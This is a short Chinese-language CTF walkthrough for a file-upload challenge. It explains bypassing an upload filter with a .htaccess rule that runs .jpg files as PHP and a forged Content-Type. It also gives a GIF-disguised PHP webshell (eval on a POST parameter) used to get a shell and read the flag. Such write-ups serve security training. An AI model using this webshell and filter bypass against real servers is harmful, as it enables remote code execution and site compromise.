






# wp

## 知识点

1. 文件类型绕过: image/jpeg

## 解题

先随便上传一个php文件，可以看到后缀带php的都被禁了



那就考虑用图片马来getshell

先随便输个网址报下错，看下使用的什么中间件（用wappalyzer插件也可）



可以看到为apache。先上传.htaccess文件，这里给出.htaccess文件的内容

```text
AddType application/x-httpd-php .jpg
```

直接上传，报错



可以看到对于文件类型做了过滤。那就burp suite改下文件类型即可



直接send，成功上传

之后便是直接上传图片马，但是对于普通的图片马会报这样的错



这样我们就要构建特殊形式的图片马来进行上传，这样就伪装了php的特性

```php
GIF89a?
<script language="php">eval($_POST['a']);</script>
```

再改为图片格式重新上传，成功


直接蚁剑连接读flag



```text
GXY{WeII_done,you_got_my_she11}
```
